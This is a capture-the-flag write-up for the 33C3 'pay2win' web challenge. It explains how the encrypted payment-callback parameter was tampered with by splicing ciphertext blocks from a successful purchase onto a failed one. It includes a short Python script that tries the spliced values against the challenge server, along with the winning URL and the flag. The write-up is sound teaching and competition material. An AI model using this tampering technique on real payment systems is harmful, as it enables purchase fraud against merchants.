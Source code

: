 ## pay2win (Web-200)

> Writeup by rnehra01(Ravinder Nehra)

### Description
Do you have enough money to buy the flag?

### Solution
So the challenge was an easy one. `Cheap` can be bought by entering a valid credit card but purchase failed for `flag`. After looking at the challenge for a very long time, `data` parameter in the URL looked suspicious.

[`data` during buying of `flag`]
```
f1=5e4ec20070a567e0e3408e92be677178ee8cbd062a60582b4f75c9736d3b8e0641e7995bb92506da1ac7f8da5a628e19ae39825a916d8a2f
f2=5e4ec20070a567e0e3408e92be677178d238c1d6d01839664f75c9736d3b8e0641e7995bb92506da1ac7f8da5a628e19ae39825a916d8a2f 
```
[`data` contents during buying of `cheap`]
```
c1=5e4ec20070a567e0e3408e92be6771789c68e186a73ad0df3b5b0554edda4f8828df361f896eb3c3706cda0474915040
c2=5e4ec20070a567e0e3408e92be677178ae6633fbd9d624ff3b5b0554edda4f8828df361f896eb3c3706cda0474915040
c3=5e4ec20070a567e0e3408e92be677178a1e8f028a2ce7c2a3b5b0554edda4f8828df361f896eb3c3706cda0474915040
```
[`data` contents after failed purchase]
```
ff1=232c66210158dfb23a2eda5cc945a0a9650c1ed0fa0a08f661c6c60fea312a3de871eef719f5fde02f7ef761e2bbe791
ff2=232c66210158dfb23a2eda5cc945a0a9650c1ed0fa0a08f661c6c60fea312a3d272d81aff52de2a52f7ef761e2bbe791
```
[`data` contents after successful purchase]
```
cp1=5765679f0870f4309b1a3c83588024d7c146a4104cf9d2c8dca8a210beb51eda28df361f896eb3c3706cda0474915040
cp2=5765679f0870f4309b1a3c83588024d7c146a4104cf9d2c86117e55fc22ad33f28df361f896eb3c3706cda0474915040
cp3=5765679f0870f4309b1a3c83588024d7c146a4104cf9d2c81f381a6fcd665bdb28df361f896eb3c3706cda0474915040
```

So, three successful purhases of `cheap` gave same prefix and prefix changed in unsuccessful purchase.
Also suffix of `c1` and `cp1` are same, so most probably they contain information about `product name` and suffix contain `purchase status` 

Initially I tried to decode the data contents but got no luck.
So I just tried to brute-force the prefix using the script.

```
import requests

#failed purchase for flag
ff='232c66210158dfb23a2eda5cc945a0a9650c1ed0fa0a08f661c6c60fea312a3d272d81aff52de2a52f7ef761e2bbe791'
#good purchase for cheap
cp='5765679f0870f4309b1a3c83588024d7c146a4104cf9d2c8dca8a210beb51eda28df361f896eb3c3706cda0474915040'

url = 'http://78.46.224.78:5000/payment/callback?data='

for i in range(0,50):
	data = cp[:i]+ff[i:]
	print 'Trying : ',url+data
	r=requests.get(url+data)
	
	if (r.status_code == 200):
		print r.text
		if ('flag' in r.text):
			break
```

And got the flag at `http://78.46.224.78:5000/payment/callback?data=5765679f0870f4309b1a3c83588024d7650c1ed0fa0a08f661c6c60fea312a3d272d81aff52de2a52f7ef761e2bbe791`
Flag : `33C3_3c81d6357a9099a7c091d6c7d71343075e7f8a46d55c593f0ade8f51ac8ae1a8`
